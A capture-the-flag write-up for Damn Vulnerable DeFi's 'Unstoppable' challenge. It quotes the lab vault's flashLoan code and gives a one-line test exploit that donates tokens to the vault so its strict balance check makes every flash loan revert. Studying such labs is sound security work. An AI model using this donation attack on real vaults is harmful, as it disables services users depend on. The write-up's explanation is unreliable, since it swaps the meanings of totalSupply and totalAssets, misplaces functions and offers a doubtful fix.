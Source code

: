 ## What is our mission
There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To pass the challenge, we will make the vault stop offering flash loans...

<br/>

## What are the smart contracts 
- **`UnstoppableVault.sol`**: smart contract that includes **`flashLoan(...)`** function 
- **`ReceiverUnstoppable.sol`**: receiver smart contract that includes **`onFlashLoan(...)`** function 
- **`DamnValuableToken.sol`**: just an ERC20 Token

<br/>


## Solution 

**1.** **`UnstoppableVault.sol`** contract's **`onFlashLoan(...)`** function

``` solidity
// ReceiverUnstoppable.sol

function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        if (initiator != address(this) || msg.sender != address(pool) || token != address(pool.asset()) || fee != 0)
            revert UnexpectedFlashLoan();

        ERC20(token).approve(address(pool), amount);

        return keccak256("IERC3156FlashBorrower.onFlashLoan");
    }
```

**2.** **`UnstoppableVault.sol`** contract's the **`flashloan(...)`** function

``` solidity
// UnstoppableVault.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address _token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) 
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement

        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
        
        uint256 fee = flashFee(_token, amount);

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
            revert CallbackFailed();

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);
        
        return true;
    }
```

**3.** The vulnarability cames from, **`UnstoppableVault.sol`** contract's the **`flashloan(...)`** function. 

``` solidity
// UnstoppableVault.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address _token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) 
    {
        //...

        /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
        /*            THIS IS WHERE THE PROBLEM CAMES FROM            */
        /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/ 
        uint256 balanceBefore = totalAssets();        
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();

        //.... 
    }       
```

If **`convertToShares(totalSupply)`** is not equal to **`balanceBefore`** transecton will fail with **`revert InvalidBalance()`**

<br/>

**`totalSupply`** ==> total amount of **asset('DVT')**.

**`totalAssets()`** ==> returns the amount of **shares('DVTo')** inside the contract.

**`convertToShares()`** ==> returns the amount of **shares('DVTo')** that would be exchanged by the vault for the amount of **asset('DVT')** provided.

To stop the pool from offering flash loans, we just have to change one of these variables. After that the **"UnstoppableVault contract"** will be always fail to land falshloans, because the calculation will always fail.

So, we will send some amount of DVT tokens to **`UnstoppableVault.sol`** contract. This will change **`totalSupply`** value, and this will cause **`convertToShares(totalSupply)`** value to change. And **`convertToShares(totalSupply)`** wont be equal to **`balanceBefore`**

``` js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        let amount = ethers.utils.parseEther('1');
        await token.transfer(vault.address, amount);
    });
```

<br/>


## How could this exploit be prevented ?
I think instead of using **`convertToShares(totalSupply) != balanceBefore`**,  

**`convertToShares(totalSupply) >= balanceBefore`** should be used inside **`UnstoppableVault.sol`** contract's **`onFlashLoan(...)`** function.



<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #1**](https://www.damnvulnerabledefi.xyz/challenges/1.html). Clone the repository as mentioned and put [**solution code**](Solution.txt) to his place.

Then you can just type **`npm run unstoppable`**
